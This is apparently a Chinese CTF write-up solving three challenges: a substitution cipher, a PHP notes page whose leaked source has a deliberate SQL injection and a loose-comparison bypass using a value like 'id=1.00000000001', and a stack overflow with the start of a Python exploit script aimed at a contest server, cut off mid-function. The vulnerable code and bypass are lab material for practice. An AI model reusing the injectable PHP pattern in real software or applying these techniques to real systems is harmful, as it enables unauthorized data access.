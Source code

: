 ## `100` `old-fashion`

基本的密码题，直接扔到http://quipqiup.com/上，没有直接解但有一个解的前半部分很像明文。后来猜测密文不同部分采用的替换方式不同，尝试把密文按分号分成两段分别提交上去，可以直接得到明文，后一段的最后部分就是flag。


## `100` `最好的语言`

在给出的php网址后面加上.bak即可拿到php源代码：

```php
<?php

//TODO: connect to DB 

$id = $_GET['id'];

//TODO: sqli filter

$secretId = 1024;
if($id == $secretId){
    echo 'Invalid id ('.$id.').';
}
else{
    $query = 'SELECT * FROM notes WHERE id = \''.$id.'\';';
    $result = mysql_query($query,$conn);
    $row = mysql_fetch_assoc($result);
 
    echo "notes: ".$row['notes']."</br>";
}
?>
```

于是可以看出我们应该就是要拿到数据库中id为1024的记录，这里我们利用PHP和MySQL的精度不同可以使得`$id == $secretId`的判断为false的同时SQL又能取到id为1024的记录，即我们只要传`id=1.00000000001`（具体多少个0已经忘记，反正多了少了都不行，多试几次就可以了），网站就会返回flag。


## `100` `guess`

简单栈溢出，可以控制程序流程，但难拿到shell，于是可以控制程序走到输出用来识别的图形那个函数，参数用最后输入邮箱的全局变量，就可以任意指定文件名了，用flag当文件名，就可以把flag发回来了

```python
#!/usr/bin/env python
#encoding:utf-8

import zio

TARGET = ('119.254.101.197', 10000)
PUTS_PLT = 0x08048550
LEN_TO_RET = 0x8c + 4 + 12

READ_FILE = 0x08048830
STR_ADDR = 0x0804a100

def judge(s):
    print '====', s[:100], '===='
    if s.startswith('                    .----.'):
        return 'peanuts'
    if s.startswith('quu..__'):
        return 'pikachu'
    if s.startswith('\n                     Tb.'):
        return 'batman'
    if s.startswith('                 .88888888:.'):
        return 'linux'
    if s.startswith('               .=.,'):
```